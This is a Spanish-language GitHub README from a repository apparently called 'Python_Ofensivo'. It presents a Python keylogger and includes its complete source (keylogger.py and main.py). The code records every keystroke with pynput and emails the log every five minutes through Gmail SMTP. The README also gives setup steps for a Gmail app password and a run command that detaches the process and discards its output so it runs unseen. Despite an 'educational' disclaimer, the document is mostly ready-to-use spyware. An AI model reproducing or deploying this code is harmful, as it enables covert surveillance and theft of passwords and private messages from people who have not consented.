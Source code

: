 # Bienvenido a este repositorio
Este Repo, está diseñado para proporcionar una herramienta eficaz y sencilla para la captura de teclas, también conocido como keylogger, utilizando Python. Esta implementación no solo se enfoca en registrar las pulsaciones de teclado, sino también en enviar los registros a través de correo electrónico de manera segura y automatizada.

# Uso y Propósito
Este proyecto está diseñado con fines educativos y de prueba. Proporciona una manera práctica de aprender sobre la captura de teclas y el manejo de correos electrónicos en Python. Se recomienda usar esta herramienta de manera ética y respetuosa, siempre con el consentimiento adecuado si se prueba en sistemas ajenos.

# Para comenzar, asegúrate de cumplir con los siguientes requisitos:

- Cuenta de Gmail: Necesitarás una cuenta de Gmail para enviar los registros por correo electrónico.
- Contraseña de Aplicación: Debes generar una contraseña de aplicación para tu cuenta de Google. Puedes crearla accediendo a Contraseñas de Aplicaciones.
- Instalación de Pynput: Este proyecto utiliza la biblioteca pynput para capturar las teclas. Instálala ejecutando el siguiente comando:
```bash
pip3 install pynput
```

# Configuración
Una vez generada la contraseña de aplicación (por ejemplo, yxkijwbtebfukhvc), introdúcela sin espacios en el código.
- Acceder a https://myaccount.google.com/apppasswords para crear contraseña de aplicación para tu cuenta google
![Pasted image 20240628130101](https://github.com/Frib1t/Python_Ofensivo/assets/102589078/e7938d60-c808-4fd0-b098-24722f5397b8)

# Ejecución:
```bash
python3 main.py &> /dev/null & disown
```
# Descripción de Archivos
keylogger.py: Contiene la clase Keylogger que maneja la captura de teclas y el envío de correos electrónicos. Utiliza pynput para escuchar las teclas presionadas y smtplib junto con email.mime.text.MIMEText para enviar los registros.

main.py: Es el script principal que inicia el keylogger y maneja la señal de interrupción para finalizar la ejecución de manera segura.

# keylogger.py
```python
#! /usr/bin/env python3
import threading
import pynput.keyboard
import smtplib
from email.mime.text import MIMEText


class Keylogger:
	def __init__(self):
		self.log = ""
		self.request_shutdown = False
		self.timer = None
		self.is_first_run = True

	def pressed_key(self, key):
		try:
			self.log += str(key.char)	
		except AttributeError:
			special_keys = {key.space: " ", key.backspace:" Backspace ", key.enter: " Enter ", key.shift:" Shift ", key.alt:" Alt ", key.ctrl:" Ctrl ", key.alt:" Alt "}
			self.log += special_keys.get(key, f" {str(key)} ")
		# print(self.log)
	
	def send_email(self,subject, body, sender, recipients, password):
	    msg = MIMEText(body)
	    msg['Subject'] = subject
	    msg['From'] = sender
	    msg['To'] = ', '.join(recipients)
	    
	    with smtplib.SMTP_SSL('smtp.gmail.com', 465) as smtp_server:
	       smtp_server.login(sender, password)
	       smtp_server.sendmail(sender, recipients, msg.as_string())
	    print(colored(f"\n[+] Email sent Successfully!\n", yellow))

	def report(self):
		email_body = "[+] El keylogger se ha iniciado exitosamente" if self.is_first_run else self.log
		self.send_email("Keylogger Report", email_body, "email@gmail.com", ["email@gmail.com"], "yxkijwbtebfukhvc")
		self.log = ""

		if self.is_first_run:
			self.is_first_run = False

		if not self.request_shutdown:
			self.timer = threading.Timer(300, self.report)
			self.timer.start()

	def shutdown(self):
		self.request_shutdown = True
		if self.timer:
			self.timer.cancel()


	def start(self):
		keyboard_listener = pynput.keyboard.Listener(on_press=self.pressed_key)
		
		with keyboard_listener:
			self.report()
			keyboard_listener.join()



```

# main.py
```python
#!/usr/bin/env python3
import signal
import sys
from termcolor import colored
from keylogger import Keylogger

def def_handler(sig, frame):
	print(colored(f"\n[!] Saliendo...\n", 'red'))
	my_keylogger.shutdown()
	sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

if __name__ == '__main__':
	my_keylogger = Keylogger()
	my_keylogger.start()
```
